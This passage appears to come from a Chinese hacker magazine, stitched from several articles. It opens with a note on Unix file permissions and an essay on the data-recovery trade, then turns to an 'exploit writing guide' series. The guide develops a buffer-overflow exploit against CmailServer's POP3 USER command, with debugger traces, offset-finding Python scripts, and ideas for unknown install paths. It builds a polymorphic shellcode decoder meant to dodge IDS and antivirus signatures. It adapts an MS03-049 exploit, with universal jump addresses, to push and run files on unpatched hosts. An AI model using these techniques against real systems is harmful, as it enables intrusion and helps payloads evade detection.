什么意思呢？从左开始的第一位表示文件类型，普通文件就用“-”表示，目录就用“d”；随后的 3 位表示该文件的所有者所拥有的权限，r 表示可读，w 可写，x 可执行；再随后的 3 位表示和该文件所有者同组的用户权限；最后 3 位表示同组以外的其他用户权限。

简单吧！FlashFXP 里面也是这样表示的。如图 3 所示。


我们作为公共用户访问的 Apache 服务器，所以为了上传文件，必须拥有写的权限，这和 Windows 是不一样的。Windows 根本就不用管这样的权限问题，默认就可以上传的。明白了吧！所以真是“条条通罗马”！不过这样做是有条件的，需要在建立 FTP 账号的时候分配给账号足够的可以修改文件属性的权限才行，不然是没法修改的啦！

**Socket：** 数据恢复行业是目前比较热门的一个行业，根据业内分析，高级数据恢复工程师的月薪可以达到 5 万元。不过这行的入门门槛相应也比较高，没有做过这行的朋友不是很了解这个行业的运作过程。这篇文章由数据恢复公司老总所写，献给所有准备从事这个行业，但没有经验的朋友。

适合读者：安全爱好者、程序员、数据恢复爱好者  
前置知识：无


## 5万月薪，我离你还有多远？

数据恢复行业是目前比较热门的一个行业，相信不少读者对这方面的知识感兴趣，正好最近很多朋友都在询问这方面的信息，于是特撰文一篇，希望可以帮大家解惑。

#### 技术前提

有句话说得好，磨刀不误砍柴工，掌握一些系统底层知识及文件结构及安全知识，会使你在工作中游刃有余。我们先来说一说实用工具方面，几类应该会使用的软件。

- 1. 分区表重建工具，如江民硬盘修复软件、DiskGenius 等，自己写个相应软件也可。
- 2. 扇区级容错备份工具，专业软件比较昂贵，在 5000 美元左右，可用其他替代软件，如 DiskEdit、WinHex、PCTools 等，自己手动编写也可。
- 3. 虚拟工具，如 VPC、VMware、Strdisk 等。主要是为了模拟案例，锻炼自己的实际操作能力。练习分区表恢复，就单纯制造分区表丢失的情况。想要练习分区格式化的恢复情况，那就只格式化目标分区，而不要进行其他对分区表的操作。在单一的情况处理熟练后，再逐步变为综合情况处理，循序渐进，这样才会飞速提高。
- 4. 数据恢复工具，如 EasyRecovery、FinalData、R-Studio、DataExplore、Runtime 等。主要应用于重复劳动，利用软件来做些重复工作，减少做数据恢复时的劳动量。
- 5. 安全擦拭软件，如 PowerQuest DataGone、OOSC、WipeInfoSE 等。用于特殊客户的保密要求，譬如军队、金融机构、档案中心等。

#### 对使用软件做数据恢复的一点建议

对使用软件做数据恢复的朋友，最好把自己习惯使用的所需软件刻在光盘上，这样从光盘运行所需软件，防止由于误操作引起的数据二次写入造成的破坏。如果你做数据恢复的平台是含有系统还原功能的系统，记得一定要禁用系统还原，因为当你挂接故障硬盘时，系统还原会在每个驱动盘下建立 System Volume Information 文件夹，会造成潜在的破坏。

软件不是万能的，抛开故障原因是由于硬件故障来说，对于做数据恢复仅局限于用一些数据恢复软件是不行的，有些情况数据恢复软件不起作用。

- 1. 误操作引起的逻辑锁或者病毒引起的引导区参数异常。典型例子如逻辑锁会造成硬盘加载失败，此时数据恢复软件找不到硬盘。需要先解除逻辑锁，然后才能进行软件恢复。另如 Polyboot.b 发作后会将主引导区和扇区内容错位覆盖，导致分区及数据不可访问，修复后数据才可恢复。
- 2. PE 病毒引起可执行文件异常，如 Parite.b 引起可执行文件不能运行。病毒将自身追加到文件尾并改写入口参数、导入表等，需要按感染机制修复入口和 RVA 后，文件才可正常恢复感染文件。
- 3. 文件头异常引起的问题。用数据恢复软件恢复数据时，经常发现恢复后的文件打开是乱码，这种情况处理较麻烦，需要手动修复。常见原因是文件头和文件结束标志异常引起的文件交叉定位。
- 4. 权限问题引起的数据不可访问。典型如文件夹加密、NTFS 分区访问控制、重装系统后账户无法访问原分区等，需要结合系统安全认证、数字签名及专门工具处理。

曾经一个朋友找我测试他写的一个数据恢复软件，我给他的第一个意见就是软件安装不要装到“要恢复的硬盘”。很多人会误解为不是“要恢复的分区”，但实际上应避免写入目标硬盘本体。

我曾在军方科研资料恢复案例中，遇到一个严重损坏的 XLS 文件。后来通过线索转向系统分区临时文件，最终在整理好的镜像中找到了该 XLS 文件。这说明恢复软件若安装在不相关但会写入的数据盘上，也可能造成严重后果；同时用户常常分不清丢失数据所在盘符与实际物理盘关系。

当数据恢复完成后交接数据时也要注意：即使客户认为已经完全恢复，也不要为省事把恢复出的数据拷回原来的存储介质，避免对源数据进行二次写入。二次写入，是一条贯彻始终的原则，无论数据恢复前后。在做完数据恢复后的数据，行业里通常使用刻录光盘交付。

相关的问题还有：当客户拿走数据后，通常情况下要再保存一个星期后，用数据擦除软件销毁，这不是法律原因，而是职业道德要求。有的时候恢复的数据中含有恶性病毒，即使客户拿回数据，也可能在一周内出现新问题，所以保留一周数据是必须的，算是一种售后服务。

恢复后的数据保存也有特例，给一些特定单位，如部队、银行、保密机关等单位做数据恢复，在条件许可的情况下要当面销毁恢复后的备份数据，不允许再保存。一个真正的数据恢复人员绝对不允许对恢复出来的数据非法利用。行业里有这么一个流行的说法，就是即使你恢复出来你老婆的银行存款数据也不能多看一眼，当然这只是一个玩笑。做好你的本职工作，是每个行业的道德规范。

#### 除了技术之外，还要懂得法律知识

这里也需要解释一下，正规的数据恢复公司在做数据恢复前是要有合同的，数据恢复合同的相应条款的具体含义，尤其是付费条件和免责条款，这都是和数据恢复工作有很大关系，必须十分明确。下面举个最简单例子。关于数据恢复的恢复率问题，客户在数据丢失后，通常会问是否可以完全恢复这一问题。这个问题一定要慎重对待，其实往往很多情况下的数据破坏后不能完全恢复，可能会存在一部分数据破损。这种情况尤其在于存储介质存在不连续存储的情况下。

通常情况下，在常见的分区中，和 NTFS 分区相关的一些操作可以完全恢复。推荐大家使用 NTFS 分区，因为总的来说，基于日志机制的系统的容错性比较好。NTFS 在处理数据操作时，采取原子事务机制，要么操作完全完成，要么退回到操作前的状态。其他一些分区存在数据丢失情况下，恢复结果往往存在破损文件，所以业界存在一条不成文的规定：恢复数据达到 35% 按照恢复一半收费，当恢复数据达到 75% 按全部文件恢复收费。总的来说只有分区表破坏、NTFS 分区删除、NTFS 分区格式化、FAT32 格式化成 NTFS、SCO 分区、ReiserFS 加载异常等部分情况能完全恢复，其他情况大多不能做到完全恢复。

还有其他特殊情况需要了解法律知识，典型案例：2003 年某公司的老总怀疑他的副总写了匿名的诬告信，信件通过邮件发出，但曾经在电脑上临时编辑过，要求我恢复那封检举信。遇到这种情况，如果征得公安机关同意才可以做恢复取证工作。计算机取证在国内外都起步较晚，和数据恢复行业有着千丝万缕的联系，还需要时间去完善，不过正是由于刚刚起步，关于所恢复的数据的合法性还有很多争议。

#### 数据恢复行业展望

高端存储和特定文件修复是数据恢复行业特别有前途的领域，在高端方案往往对应高价值数据。关于高端存储方面我再来说说常见的 RAID，RAID 在存储容量、存储安全和存储速度上都有独到之处，但是 RAID 磁盘阵列一旦出现故障，给用户带来的损失也往往最为惨重，难度也比较大，因为本身它在设计时就考虑了备份容错方案。

出现问题的原因常见为：RAID 阵列卡出现故障、磁盘物理故障、停电造成数据回写异常、插拔硬盘将顺序弄错、重新配置 RAID 阵列信息，造成数据异常等。一旦出现以上问题，我们一般采取最小系统法，由简单到复杂，由软故障到硬件问题。切记不要轻易尝试 Rebuild、同步等操作，更不要初始化。对 RAID0、RAID1、RAID5 以及组合型 RAID 系列当出现故障以后，不对阵列作初始化和非常规的 Rebuild 操作，先对磁盘镜像，然后对镜像文件分析，尝试重组数据。

我一直在关注着国内的数据恢复行业的发展。目前仍然有些数据恢复公司对客户的硬盘做非法操作，可是没有相应的法律文件去规范这种做法，对此我一直很是担心。工作中经常可以遇到一些客户拿着硬盘，说找了好几家数据恢复公司了，都没有恢复出丢失的数据；在我恢复数据工程中，居然不但恢复出了客户所需要的数据，而且还恢复出了其他公司的数据恢复软件。

这些年做数据恢复，我遇到过不少比较令人担忧的事情。有家公司把客户由于使用 PQ 转换分区失败的硬盘作反向处理，即 NTFS 再重新恢复成为 FAT32。还有些公司在处理 WYX 病毒造成的加密时，由于不能使用数据恢复软件，居然格式化了客户的硬盘，然后再使用数据恢复软件恢复……

正是由于数据恢复行业的种种特点，这个行业越来越趋向于选择专业技术和素质过硬的人才，目前存在的数据恢复公司也会划分出层次，优秀的公司会占领大部分市场，而技术和运作不过硬的公司会被淘汰出局。如今，数据恢复行业也呈现出多分支发展的局面：如计算机取证、专业的数据备份业务、和军方联合开发专业设备、安全软件销售等其他分支。所以，有志于此行业的人，一定在掌握相关技术和能力的同时，要密切关注国内外此行业的发展，与时俱进。相信有志者事竟成，愿你成功。

---

**WTF：** 推出的 ISNO 发现的 CCProxy 远程溢出漏洞，受到了很多朋友的关注，EXP 也广泛流传着。很多菜鸟朋友们感受到了漏洞的乐趣，都争先恐后地想学习漏洞发现、编写技术，让自己也过过黑客瘾。本文就是利用我们原来刊登的《菜鸟版 Exploit 编写指南》系列文章中所讲到的技术，围绕如何发现并分析溢出漏洞而讲的，希望更多的新手能掌握这样的分析方法，全都成为分析漏洞的高手！

适合读者：入侵爱好者，漏洞分析员

前置知识：SoftICE、OllyDbg 基本使用方法、基本汇编语法

### 菜鸟版 Exploit 编写指南之八

## 菜级无之长

### 分析发掘出 Cmail 漏洞


看了 ISNO 大虾的《我是如何发现 CCProxy 漏洞的》，心里痒痒的，也想按照 ISNO 大虾介绍的方法依葫芦画瓢地分析一个漏洞。分析什么漏洞呢？F.Zh 在《菜鸟版 Exploit 编写指南》的开山之作中详细讲解了 Cmail Server 漏洞的利用过程，让我这样的菜鸟受益匪浅，以后屡用屡爽。在 F.Zh 文章的最后留下一句话：“定位，如果是固定长度的话，确实可以通过两次溢出定位，但实际上这个是和安装的路径有关的，还有没有好一点的方法来定位呢？”

什么意思我不太明白，F.Zh 也没有再说下去，那我们就尝试分析 Cmail Server 吧，看看为什么覆盖那么长的字符串正好实现溢出，也看看能不能解决 F.Zh 说的不定长问题。当然，更重要的是复习总结下 ISNO 和 F.Zh 介绍的方法，并改进改进，让它更适合我们菜鸟使用。


### 分析

安装好一个 CmailServer 4.00 beta1，应该有漏洞吧，如图 1 所示。


验证一下，进入 DOS 控制台，在窗口下输入 `telnet 127.0.0.1 110`，其中 110 是 POP3 协议所用端口，然后输入 USER 和一长串的 a，按回车，如图 2 所示。

弹出出错对话框了，Windows XP 下的出错对话框和 2000 不同，没有直接给出报错点，如图 3 所示。

怎么办？我们不能看到执行的地址了吗？不是还有办法的。点击对话框中蓝色的字“请单击此处”，系统就会给出详细的出错报告数据了。`Offset: 61616161`，表示执行 `0x61616161` 这个地址时出现了错误。`0x61` 就是小写的 a，就是我们输入的 USER 中的数据，因为 `0x61616161` 地址非法，所以出错，这下 Windows XP 下的定位和 2000 一样方便了，如图 4 所示。


好了，到了使用 ISNO 的方法分析漏洞的时候了。重新启动 Cmail，打开 SoftICE，然后再发送超长的字符串，这下 SoftICE 捕获异常，弹了出来，停留在下面这句代码处。

`001B:61616161 FFFF .... INVALID`

## 新手学溢出

意思是 61616161 指向的指令非法。再看看上下左右相关的数据吧，输入 Data 命令，会出现一个数据窗口，然后输入 `d EIP`，就会在数据窗口中显示出如下的值。

```text
001B: 61616161
001B: 61616171
```

上下左右的数据都是非法的，因为没有代码加载在这个部分，所以系统默认填充 1，就是全 F。原 EIP 和堆栈都已经被我们过长的数据覆盖，现在无法从现今的堆栈中找到问题代码的位置。

> SoftICE 默认情况下是开了异常捕获功能的，即有什么异常发生时会自动激活 SoftICE。我们可以使用指令 `fault on` 和 `fault off` 来打开或关闭异常捕获功能。

使用 ISNO 的方法，记下这个时候 ESP 的值……关键就是找到在 `02AE841C` 附近保存地址的函数。退出 SoftICE，重新启动 Cmail，输入 `Addr CmailServer` 进入地址空间，再下断点 `bpmw 02AE841C w`，定位发生字符串覆盖的函数。

回到程序空间，再运行攻击代码，经过几次中断，到达指令：`00415A61: call 004049E0`。此时 `ESP=02AE841C`，说明返回地址保存于 `02AE8418`，继续执行后会跳到 `001B:61616161`，说明找到了被覆盖返回地址的函数 `004049E0`。

重新启动挂掉的 Cmail，用 OllyDbg 附加并查看 `004049E0` 处函数代码，如图 5 所示。


直接看反汇编代码不明显，动态执行并在 `004049E0` 下断。执行到 `sub esp, 220h` 时中断，观察调用参数。继续到：`00404A72: PUSH EBP`，发现 EBP 对应的是输入的超长字符串。

下一句 `00404A73 PUSH CMailSer.004F9640`，该地址内容是 Cmail 安装路径。再下一句 `00404A7C PUSH CMailSer.00474498`，压入内容为 `%s\mail\%s` 的格式串，最后压入 EAX 并调用函数。

```text
00404A81  50          PUSH EAX
00404A82  E8 18730200 CALL CMailSer.0042BD9F
```

```c
sprintf(EAX,
        "%s\\mail\\%s",
        "F:\\Study\\课堂讲义\\投稿\\heifang\\CMail漏洞分析",
        "aaaaaaaaaa......")
```

EAX 中先拷贝安装路径，再拼接 `\mail\` 和用户名。因无长度检查导致溢出。根据地址计算：从 EAX 到保存返回地址 ESP 的跨度为 `0x220=544` 字节，扣除路径与分隔后需覆盖约 494 字节。


函数执行完毕后，保存地址 `0x02AE8418` 果然被覆盖成 `0x61616161`。当函数返回时跳转到该地址并触发异常，如图 7 所示。


上面是通过直接分析得到需要覆盖的长度为 494 字节。

但我们菜鸟心中没有底，还是使用熟悉的 F.Zh 黑盒法验证一下！我把 F.Zh 的定位方法改进了一下，分别定位百位、十位、个位，这样更容易定位比较长的溢出。利用 Python 写定位程序，首先定位百位。

```python
import poplib
m = poplib.POP3('127.0.0.1')
s = 'a' * 100 + 'b' * 100 + 'c' * 100 + 'd' * 100 + 'e' * 100
m.user(s)
```

Python 真是个写 Exp 和测试用的好东西，只要这几句话就给 Cmail 服务器发送了 100 个 a、100 个 b、100 个 c 的用户名，报错对话框如图 8 所示。


`65-61=4`，所以百位是 4。然后定位十位，因为知道百位是 4，所以先发送 400 个 a，再发送 10 个 a、10 个 b……程序如下。

```python
import poplib
m = poplib.POP3('127.0.0.1')
s = 'a'*400 + 'a'*10 + 'b'*10 + 'c'*10 + 'd'*10 + 'e'*10 + 'f'*10 + 'g'*10 + 'h'*10 + 'i'*10 + 'j'*10
m.user(s)
```

这次报错对话框变为 `Offset: 6a6a6a6a`，如图 9 所示。


`6a-61=9`，所以十位为 9，最后定位个位，490 个 a，然后是 `abcdefghij`，程序如下：

```python
import poplib
m = poplib.POP3('127.0.0.1')
s = 'a'*490 + 'abcdefghij'
m.user(s)
```

得到 `68676665` 处不能执行，如图 10 所示。那么个位是 `65-61=4`，`400+90+4=494`。果然和直接算出来的一样，494 字节！现在不仅知其然，而且还知其所以然了。


### 解决不固定路径思路

因为 Cmail 会把大写字母变成小写字母，所以用 F.Zh 文章里的方法覆盖 494 个 a，然后是 JMP ESP 的地址，最后附上只有小写字母的 Search 代码和 ShellCode 就可以完成利用了！但还有个问题，就是覆盖 494 字节是在安装路径为固定长度时造成的。若对方安装路径长度不同，返回点覆盖位置就会变化，可能导致崩溃而不能利用成功。

怎么办呢？想来想去有几个办法。

- 1. 不管长度为多少，想法让 JMP ESP 的地址对正返回溢出点。
- 2. 想办法知道对方的安装路径，精确计算出覆盖长度。
- 3. 如果字符串较短，虽然不会成功，但不会有挂掉的问题，可以一个字节一个字节地增加字符串，直到成功。

第一种方法较困难，因为在 Cmail 中不存在对齐机制，一个字节偏差都会导致失败。对某些具备对齐特性的服务，可考虑 `JMP ESP` 地址加 `JMP +08` 指令进行大片连续覆盖。

第二种方法在 ISNO 的 CCProxy 漏洞利用中使用过，但 Cmail 中对方安装路径不容易探测。可以考虑社会工程学方式获取路径信息后再计算长度。

第三种方法看来最可行：假设路径长度最大是 128，就从 `544-128-6=410` 个 a 开始覆盖；若不成功且服务仍可用，就逐字节递增尝试，直到成功为止。

其实在 WebDAV 漏洞中也有安装路径长度问题，解决思路类似：从小到大逐步试。Cmail 相对更麻烦，但仍可通过渐进测试完成利用。

### 编写变形的 ShellCode 突出体

**WTF：**以前写了很多笔墨说明变形 Shellcode 的原理，这次直接做一个简单的变形 ShellCode 示例，并讨论如何规避按特征查杀。

- 适合读者：溢出分析员、漏洞爱好者
- 前置知识：汇编基本语法


在切入正题之前，先按传统做科普：ShellCode 后面一部分是真正功能，前面的 Decode 部分负责解码。若将有效载荷按异或 `0x99` 编码，则可写作 `D + X(S)`，再套一层得到 `D + X(D + X(S))`。

变形的重点是让解码部分可相对独立、可重复套用，生成每次都不同的 ShellCode。一次性 exploit 场景下，不必让 ShellCode 自带“自我变形”逻辑，只需离线生成不同版本。

```asm
jmp l

de: pop edx
    xor ecx, ecx
    mov cl, 22h

lp: xor byte ptr [ebx], 0x99
    inc ebx
    loop lp
    jmp stt

l:  call de
stt:
```

这是最基础的 Decode 样板：若异或常量不是 `0x99`，仅需改对应操作数。该解码块的价值在于相对独立，不依赖太多外部环境，仅负责还原后续数据。

右栏继续分析 Decode：寄存器选择要考虑 `loop` 对 `ecx` 的占用，也要顾及栈完整性与指令长度。通常可在 `eax/ebx/edx/esi/edi` 中随机选择一个，并把原本基于 `ebx` 的访问替换为新寄存器。

> **WTF：**这种“再套一层”形式仍然可执行，本质是做了两次解码。虽然实战中不常直接见到，但对变形来说是可行办法，前提是 ShellCode 长度不受限。

寄存器替换不是简单文本 Replace，而是最终机器码字节级别的替换。需要先理解寄存器在编码中的顺序关系，例如 `inc eax` 到 `inc edi` 对应连续 opcode。

```c
enum Register {
  EAX = 0, ECX = 1, EDX = 2, EBX = 3,
  ESP = 4, EBP = 5, ESI = 6, EDI = 7
};
```

很容易得到 `inc exx` 的对应指令是 `0x40+Register`，同样的 `dec`、`push`、`pop` 等都满足这样的简单规律。回过头来看 Decode，要做的工作是选择寄存器后改变代码，自然而然地要去寻找其中规律。前面说到的 5 个寄存器基本上满足如下两个公式。

```text
pop exx:
0x58 + Register

xor byte ptr [exx], 0xXX:
[80] [0x30 + Register] [XX]
```

XOR 是一个 3 字节的指令，前面 `0x80` 固定，最后一个是操作数。对于 `esp` 和 `ebp`，这是一个 4 字节指令，长度不一样，也是要抛弃的原因之一。准备工作已经就绪，就从一个程序开始，按照原理篇的几个部分来做。第一个程序是 Test0.cpp，这里是最基础的部分，用来熟悉解码部分的基本写法，并在后面把每一步生成的 Decode 部分拿来测试。

程序 Test1.cpp 就是变形的开始。先人为把 Decode 部分分成 8 份，基本上每个指令算一份，真正与寄存器选择有关的是第 2、4、5 部分，第一步“寄存器的选择”焦点就集中在这 3 个部分上。

> **WTF：**本来这里有 9 条指令，但 `xor ecx,ecx` 和 `mov cl,22h` 其实就是 `mov ecx,22h` 一个指令。只是为了避免 `0x00` 出现而变的花招而已，大体上还是把它们看作一个指令为好。

选择寄存器后，按照随机数来选取一个。根据这个寄存器，第二句 `pop exx` 的机器码应是 `0x58+Register`，第四句 XOR 中第二个字节应是 `0x30+Register`，第五句 `inc exx` 应该是 `0x40+Register`。具体实现在 Test1.cpp 对应 Step1 函数。除此之外还有一个函数 Combine，用来把分散的头部写成统一头部，并可实现交换指令次序等调整。

不管你相不相信，这么简单的一段程序（Test1.cpp）已经是一个变形头部了。遗憾的是它的变形能力有限，因为归根结底只用到了一个寄存器；如果 Decode 部分出现更多寄存器，同时选出多个寄存器备用，组合结果会更多，变形效果会更好。

原理篇里提到的第二种方法是交换指令顺序，在这里也可以办到，看看以下代码：

```asm
pop ebx
xor ecx, ecx
mov cl, 22h
```

后面两句可以看成一个整体；弹出栈顶值给寄存器或赋值给 `ecx`，这两步没有绝对先后次序，因此可互换而不影响最终结果。对应实现可在 Step2() 中通过交换字符串内容完成，不影响后续函数。

最麻烦的是插入 NOP-like 指令。Decode 部分不可避免有相对跳转和相对调用指令，一旦其中某条指令长度变化，几乎会影响所有相关跳转位置，因此插入 NOP-like 时必须逐条考虑。

对这个 Decode 而言，已经人为分成 8 个部分。这样做的好处是插入 NOP-like 时可按“每个部分作为整体”处理，而不是夹在两个部分之间，便于理解和处理。

以插入 `NOP 0x90` 为例：若插入在第一句 `jmp` 后，直接影响到后续 `call` 的目标偏移，需要在 Test3 的 Step3() 中修正相关头部字段（如 `Head1[1]`）以反映新增字节数。

对 Head2 的插入更复杂。`pop exx` 后加入 NOP-like，除第一个 `jmp` 外后面 `call` 也会受影响；同样 `xor ecx,ecx` 和 `mov cl` 加入 NOP-like 后也有类似影响。这两句可交换，交换后前后指令影响一致，可统一处理。

后面的修正可以按同样方法完成。Test3.cpp 还举了 `inc exx` 后插入的例子。这里不展开，插入的不再是单一 NOP，而是原理篇中提到的一对指令（如 `inc eax` 和 `dec eax`，`0x40 0x48`）。NOP-like 指令形式很多，可参考相关资料。

还有一个 Misc() 函数，这个函数是通过 Decode 部分的本身性质来变形的，例如上面的循环次数，也就是要解码多少个字节，这个数目可大可小，只要能够保证将所有编码过的字符都能够被解到即可。到这个时候，差不多一个变形的 Decode 部分已经完成，剩下一件小事情，就是将其作用的 ShellCode 用一个数字来异或，然后将对应的数字填入 Decode 部分即可。代码我已经有一个简单的实现，具体细节不再解释。光盘里的东西到此为止，然而变形的路子并没有就此结束，还有一些值得讨论的。第一是关于起作用的部分，也就是所谓 Real ShellCode 部分的编码方式……4 个字节一组的主要思想就是平衡解码部分的生成难度和变形能力。

第二是解码部分的编写，这里给出的编写方法虽然太过于复杂，好的办法是在你编写的上面套一层像编译器一样的东西，这样需要做的不过就是不断地加指令、相对位置的调整。第三是有关解码头部本身的，这个头部可以反复地加、反复地用。生成变形的 ShellCode 不是一件很难的事情，只要你能写出一种编码的方法，然后写出解码的头部就可以了。然而麻烦的是如何在长度（复杂度）与变形能力之间寻找到一个平衡点。对于 Exploit 需要的 ShellCode，通常不能太长，而且 IDS/IPS 借以判定的字符串往往还不是 ShellCode 本身。

### WTF，Windows XP SP2

Windows XP SP2 相信是大家都在关注的一个系统，这个版本刚推出的时候，由于其具有溢出保护机制，传统的溢出利用方式已经对它没有效果。随着时间的推移，XP SP2 也逐渐暴露出与以前的操作系统版本存在的兼容性问题。于是，出现了大量的用户仍然坚持长期使用其他版本系统的情况。这里并不是守旧，只是想借此说明其实 MS 给了我们很长的时间来继续研究传统的溢出漏洞。

- 适合读者：漏洞分析员、黑迷
- 前置知识：溢出漏洞基本调试步骤、SoftICE 基本使用方法

### 菜鸟版 Exploit 编写指南之九：从 MS03-049 漏洞利用看调试系统进程


本文主要是以前段时间利用 WorkStation 服务溢出漏洞（MS03-049）过程中遇到的一些问题为基础，谈谈我是怎样通过对该系统进程的调试来达到利用该漏洞为自己服务的。我的目的不完全是讲这个漏洞，而是想通过介绍漏洞利用过程来探讨一下以后在没有公布利用代码，或者有人公布了利用代码但是在关键的地方有所保留的情况下，如何能一步一步地写出自己的利用代码。当然，现在的方法只是很初步的。

#### 尽可能地利用现有的资料

前段时间闲得无聊，想看看有什么新的溢出漏洞可以利用，但是打开 Xfocus 和 Nsfocus 一看，实在找不到新的基于 Windows 的堆栈溢出漏洞。于是就想起了去年的 WorkStation 漏洞好像没有爆发蠕虫，也就是说虽然网上已有相关补丁，但该漏洞还是有广泛存在的可能性。于是，我决定拿它来练练手。

EEYE 发现的 MS03-049 溢出是在 Wkssvc.dll 的某个 API 中调用 `vsprintf` 函数时发生的，我后来找到了 Snake 的两个分析文章，了解了漏洞的原理以及适用范围，这里不再多讲。遗憾的是，可能由于舆论的压力，Xfocus 或 Nsfocus 都没有在显要的位置公布利用代码，最后我费了好大的力气才从论坛上找到了 Sbaa 写的代码。有了利用代码，那当然马上试一试。


图1


图2

居然这么顺利？！既然如此，看看能否将利用代码改写为自动传送文件。好在这方面的 ShellCode 以前编写过，那就用现成的，现在剩下的就是找到溢出点再往下修改即可。为了方便起见，以下的工作都是针对 Windows 2000，并且当前系统分区为 FAT32。

#### 溢出点的确定

溢出点当然是从现成的代码中找了。再次打开 DOS 窗口的源代码，发现其中有两处值得注意的地方，一个地方如图3所示。


图3

另一个是代码中发送数据包的安排如下：

```text
[ShellCode, AAAAAAAA...][跳转区：AAAAAA...]
```

奇怪！整个代码中只有这个地址覆盖，但是 `0x7ffa4a1b` 是 Windows 2000 下通用的 `JMP EBX` 的地址。我最初的理解是作者要覆盖 SEH 的处理函数地址；但是为什么在两处使用 `0x7ffa4a1b` 呢？而且没有向前跳转的指令，为何刚好跳到 ShellCode 开始的地方呢？还有，究竟溢出点在什么地方？

我填充好数据后，在第 2023 字节开始的地方覆盖上通用的 `JMP ESP` 地址 `0x7ffa4512`，后面大约 40 个字节为 `\xeb\xfe`，然后打开 SoftICE 观察。可惜这次没有出现想要的效果，显然 2023 不是溢出点。于是从 2001 到 2040 这段区域内依次填入测试字符串，编译、连接、重启系统后，正好弹出图4所示的信息。


图4

现在就清楚了，`0x54535251` 对应的是“QRST”，对应位置是在 2017 处。也就是说，可以认为 WorkStation 服务分配了 2013 个字节的缓冲区来存放参数，而函数返回地址是在第 2017（下标）字节处。溢出点找到了，下面的操作也就好做一些了。

#### 检测 EIP 之后的保留地址

前面我在探测 2023 是不是包含函数返回地址时，在后面约 40 个字节填满了 `\xeb\xfe`，目的其实在于检查 `JMP ESP` 后面是否有保留地址。因为有时候 BUF 中填写 `JMP ESP` 的后面是不能直接跟 ShellCode 的，例如 RPC（MS03-026）漏洞就是在 `JMP ESP` 后面必须留 8 字节的保留地址。

从图5可以看出，`0x7ffa4512` 之后到执行 `eb fe` 的地方刚好有 12 个字节，换句话说这 12 个字节就是保留地址。一般情况下，我们就只需要把 ShellCode 放在这 12 个字节之后就可以了。

#### 检测接收缓冲区大小

其实我觉得这是一个比较容易忽略的地方，在有的漏洞利用中非常关键。


图5

#### 善用 JMP ESP

代码用了以前编写好的 ShellCode，这里不再讲述。写好的利用代码和一个载入器的利用代码都附在光盘中。

这里再补充一点，前面已经说过，Sbaa 的代码中其实有效地覆盖函数返回地址的代码只有一句：

`memcpy(szBuffer+2017, "\x1b\x4a\xfa\x7f", 4)`

但是他的 ShellCode 是放在 `szBuffer` 的最前面的。从前面的分析入手，肯定是函数返回时 `ebx` 指向了 `szBuffer`！通过 SoftICE 查看如图6所示。


图6

漏洞利用过程中，可能会出现该服务用于接收网络参数的缓冲区大小受限。如果是这种情况，我们就不能把 ShellCode 放在 `JMP ESP` 地址的后面，而应该考虑放在前面。这个检验方法从 SoftICE 里查看内存就知道了，这里不再多讲。当然，经过测试 WorkStation 服务漏洞不存在这个问题。

#### 使用通用跳转地址

能采用通用的跳转地址最好，即便找不到通用的 `JMP ESP` 的地址，也可以找找其他通用跳转地址，而且有的服务本身就有通用的跳转地址。例如 SQL Resolution 服务漏洞中，就有一个通用的 `JMP ESP` 地址 `0x42b0c9dc`，而 RPC 溢出漏洞中有通用的具有 `JMP ESI` 功能的跳转地址 `0x0100139d`。

如果要想跳转地址更通用，这里推荐现在比较流行的两个：对 Windows 2000、XP、2003 都通用的具有 `JMP EBX` 功能的地址是 `0x7ffa1571`，通用的具有 `JMP ESP` 功能的地址是 `0x7ffa4512`。在 WorkStation 服务漏洞中，我用的是 `0x7ffa4512`。

接下来，就可以改写我想要的传送文件并执行的利用代码了。

`EBX = 0x00109744`，而 `szBuffer` 的首地址也是 `0x00109744`，果然和想象的一样！

我之所以要说这一点，其实是想说明我们对漏洞利用的原理其实都是差不多的，但是实现的手法却可以有多种。具体怎么实现，那就八仙过海，各显神通。

好了，上面就是我通过利用 WorkStation 服务漏洞得出的一些体会。可能有的地方写得不是很清楚，希望能和大家相互交流。此外，本文中对 SoftICE 的抓屏我没有其他办法，是用数码相机直接照下来的，所以有点模糊，希望大家见谅。

### 菜鸟版 Exploit 编写指南之五

### 分析和利用 W32Dasm 溢出漏洞

文/图 王炜/ww0830


看过黑防的“密界寻踪”的读者，都知道一段很经典的话：“用 W32Dasm 反编译需要破解的程序，然后选择菜单 参考 -> ‘字符串参考’，找到‘无效的注册码，请重新输入！’或者‘注册码不正确。’等可疑字符串，然后往上找，找到跳转过来的位置，用十六进制编辑器，将跳转位置的 JZ 改为 JNZ 并保存，然后重新运行程序，这下随便输入注册码都可以成功注册了。”这就是大家耳熟能详的“爆破法”。在这个过程中的主角 W32Dasm 是一个强大的反汇编工具，操作简单，使用方便，由 URSoft 开发的。虽然很久不再更新了，但仍被大家广泛使用着。无数初学者（包括我）都是利用 W32Dasm 来完成程序的“爆破”，从而激起兴趣，由此进入了逆向工程的大门。

2005 年 1 月底 2 月初的时候，突然爆出 W32Dasm 也有缓冲区溢出漏洞的消息！想想破解了无数软件的 W32Dasm，本身却存在被“黑”的可能，我只能无奈地摇摇头。看来单凭技术和经验，人类的确无法达到百分之百的完美和精确。我们迫切需要一种创新的机制或方法，来规划软件的开发过程，尽量减少甚至消灭各种安全隐患。不知微软提出的新的开发流程，能最终解决么？微软的亚洲研究院在做这方面的研究么？嘿嘿，自己梦里都想着去那里学习呢，还可以去看看亲爱的老毒。

扯远了，还是来看看这个漏洞本身的信息和利用方法吧！

#### ☆ 漏洞的起因和分析

漏洞公告如下图1所示。


图1

漏洞公告的意思是 W32Dasm 在处理可执行文件的引出/导入函数名时存在问题。W32Dasm 使用 `wsprintf()` 函数拷贝文件的引入/导出函数名到一个 256 字节的缓冲区中，由于没有检查字符串的长度，所以可能会引发缓冲区溢出。

如同现在的大多数漏洞公告一样，公布出的信息比较少，我们需要自己来定位一下有问题的代码段。

> **WTF：**在前面中，都有文章讲解如何定位有问题的代码，大家可以翻出来复习一下。

打开 SoftICE 后，运行 W32Dasm。按 `Ctrl+D` 呼出 SoftICE，敲入“`Addr w32Dasm89`”命令，表示进入 W32Dasm 的进程空间，然后输入“`Bpx Wsprintfa`”，表示在调用 `Wsprintfa` 这个函数时中断下来。

> **WTF：**在 Windows 中，函数有 ANSI 实现和 Unicode 实现两种形式，分别是函数名加 A 和 W。当参数是 ANSI 码时，系统会自动使用带 A 的函数来执行；如果参数是 Unicode 码，系统则使用带 W 的函数来执行。

再按 `Ctrl+D` 回到 Windows 系统下。用 W32Dasm 选择一个可执行文件分析。当调用 `Wsprintfa` 的时候，SoftICE 就会弹出来，停留在如下的代码中：

